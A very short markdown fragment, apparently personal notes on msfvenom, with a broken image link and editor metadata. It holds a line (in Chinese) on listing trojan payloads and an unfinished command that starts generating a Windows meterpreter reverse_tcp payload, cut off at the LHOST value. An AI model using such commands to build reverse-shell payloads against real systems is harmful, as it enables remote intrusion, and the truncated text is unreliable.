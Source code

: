 ## msfvenom
`-l payloads` 回显所有可生成的木马
`-p windows/meterpreter/reverse_tcp LHOST=
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTI4MDQ3MzU0LDczNTE2NDc1Ml19
-->